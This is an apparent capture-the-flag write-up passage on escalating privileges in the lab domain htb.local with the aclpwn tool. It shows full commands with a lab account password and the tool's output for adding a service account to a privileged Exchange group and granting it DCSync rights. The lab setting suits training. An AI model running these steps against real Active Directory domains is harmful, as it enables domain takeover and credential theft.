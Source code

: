 ##### AclPwn 

First install it like : sudo pip install aclpwn 

In this step, i would found a path to a priviliged group in this DC, for that i used a python tool, which search if we have a path to the domain, we can also see if we can escalate to a specific group or computer or user etc ..

AclPwn use the neo4j db, which contains all .json data ( we can remove all theses data from bloodHound app), and from it seach for any path to escalate a domain, we can just find the path locally without exploit using the param (-dry) like :

```
$ aclpwn -f  svc-alfresco@htb.local  -d htb.local  -sp s3rvice -dry  
[+] Path found!
Path [0]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL)-[MemberOf]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
[+] Path found!
Path [1]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
[!] Unsupported operation: GetChanges on HTB.LOCAL (Domain)
[-] Invalid path, skipping
Please choose a path [0-1] 0
[+] Path validated, the following modifications are required for exploitation in the current configuration:
[-] Adding user SVC-ALFRESCO to group EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL
[-] Modifying domain DACL to give DCSync rights to SVC-ALFRESCO
```

This command verify if we have any path to exploit the domain with the user (svc-alfresco, and password)
Let's now do the same , but with exploit ( aclpwn will try to add the user to the group priviliged "TRUSTED SUBSYSTEM@HTB.LOCAL", and also give this user "DCSync" rights : 

```
$ aclpwn -f  svc-alfresco  -d  htb.local  -sp s3rvice -s 10.10.10.161        
Please supply the password or LM:NTLM hashes of the account you are escalating from: 
[+] Path found!
Path [0]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL)-[MemberOf]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
[!] Unsupported operation: GetChanges on HTB.LOCAL (Domain)
[-] Invalid path, skipping
[!] Unsupported operation: GenericAll on EXCH01.HTB.LOCAL (Computer)
[-] Invalid path, skipping
[+] Path found!
Path [1]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
Please choose a path [0-1] 0
[-] Memberof -> continue
[-] Memberof -> continue
[-] Memberof -> continue
[-] Adding user svc-alfresco to group EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL
[-] Could not add CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local to group CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,DC=htb,DC=local since they are already a member, your BloodHound data may be out of date, continuing anyway!
[-] Switching context to svc-alfresco
[+] Done switching context
[-] Memberof -> continue
[-] Modifying domain DACL to give DCSync rights to svc-alfresco
[+] Dacl modification successful
[+] Finished running tasks
[+] Saved restore state to aclpwn-20191017-181438.restore
```